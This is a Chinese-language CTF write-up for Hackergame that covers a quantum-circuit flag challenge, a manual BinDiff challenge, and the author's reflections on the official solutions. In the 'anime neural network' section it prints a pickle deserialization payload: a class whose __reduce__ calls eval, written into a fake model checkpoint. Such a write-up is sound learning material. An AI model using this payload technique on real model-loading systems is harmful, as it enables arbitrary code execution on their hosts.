 最后编写模拟电路并输出 Flag 的相关代码；

```
sim = Aer.get_backend("aer_simulator");
result = sim.run(circ).result().get_counts();

print(result);
```

注意最后会得到的是二进制的 Flag，按 ASCII 编码进行解读即可得到 Flag。

## 火眼金睛的小 E

第一问就是简简单单的 BinDiff，然后就是第二问了。由于并没有找到使用命令行进行 Bindiff 的方法，也没有找到 Bindiff 有什么其它的接口，因此我只能手动进行 Bindiff 了。因为输入相同的时间戳可以得到相同的题目，因此我们可以先随意填写100次，从而一次获取全部的题目，然后慢慢 Bindiff。时间限制是 60 分钟，这 60 分钟里要完成获取题目、下载需要比较的文件、进行 100 次 BinDiff、提交所有 BinDiff 结果这四个步骤，所以肯定是有一些过程需要自动化的。实际上除了进行 BinDiff 这一步骤之外，获取所有比较题目、提交所有比较结果、每次下载两个bin文件的过程都是可以自动化的， ~~最后练一下手速，争取做到每分钟两次bindiff，基本上就够了。 一开始操作不熟练，再加上很多过程一开始没有自动化，所以浪费了好几个小时。~~ （别学我浪费时间手动 Bindiff（

# 官方题解的一些观后感

## 链上记忆大师

我大概确实是没有完成这道题所需的相关的基础知识，实在想不到 ```Player Bytecode``` 指的是 ```Solidity``` 语言源代码编译之后的字节码qwq

## 二次元神经网络

明明已经想到是利用 Pickle 的反序列化漏洞，也构造出写入那10张图像到 ```result.json``` 的 payload 了，可惜最后仍然没能做出来。对比官方题解，我的问题出在两个地方。

一个是我需要用```torch.save()```来保存```Exploit()```而不能手动写入，否则会提示「在加载和解析模型时出错」。另外一个是我疏忽大意，本来应该将```result.json```保存到```/tmp/```的，但我为了在本地调试方便直接将```result.json```保存到了```infer.py```所在目录。

我的失败的代码如下：（由于篇幅原因，图像的 base64 在此省略）

```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (eval, ('''open("./result.json", "wb").write(b'{"gen_imgs_b64":[]}')''',),);

attack = Exploit();

attack_payload = pickle.dumps(attack,protocol=0);

attack_payload = attack_payload.decode('UTF-8').strip(".").encode();

with open("./checkpoint/model.pt", "wb") as handler:
    handler.write(attack_payload+b'c__builtin__\neval\np0\n(Vsys.exit()\np1\ntp2\nRp3\n.');

```

# 总结

虽然没有参加过几次 CTF，但是这次 Hackergame 给我感觉还是很有意思的，除了排名止步于 64 名有点遗憾（本来感觉就差一点点就可以排到前 50 名的qwq），明年也许会继续参加。

# 另请参见

* [Hackergame 2022 WriteUp](https://blog.apeiria.net/2022/hackergame-2022-writeup/) by [欠陥電気](https://apeiria.net/)